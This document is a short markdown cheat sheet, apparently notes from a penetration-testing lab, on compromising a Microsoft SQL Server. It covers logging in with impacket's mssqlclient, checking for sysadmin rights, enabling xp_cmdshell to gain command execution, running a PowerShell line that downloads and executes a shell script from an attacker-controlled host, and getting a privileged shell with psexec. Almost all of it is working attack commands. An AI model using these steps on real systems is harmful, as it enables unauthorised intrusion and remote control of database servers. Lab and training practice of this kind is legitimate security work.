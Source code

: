 # SQL Server

```markdown
# connect to sqlserver with impacket
> git clone https://github.com/SecureAuthCorp/impacket

> mssqlclient.py USERNAME/sql_svc@10.10.10.27 -windows-auth

# command IS_SRVROLEMEMBER to veryfy if the current user has ADMIN privileges
> SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')
```

```markdown
# This code will activate xp_cmdshell and gain RCE on the host
# will be sucefull if the host has administrative privileges
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

**UP A FILE SERVER in your machine**

to pass the payload to the server to get a RCE

```markdown
# And download the file from your computer to the server and execute
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
```

to get a privilated shell on the server with *impacket*

```markdown
# Using the psexec.py to get privilaged shell
> psexec.py administrator@10.10.10.27
```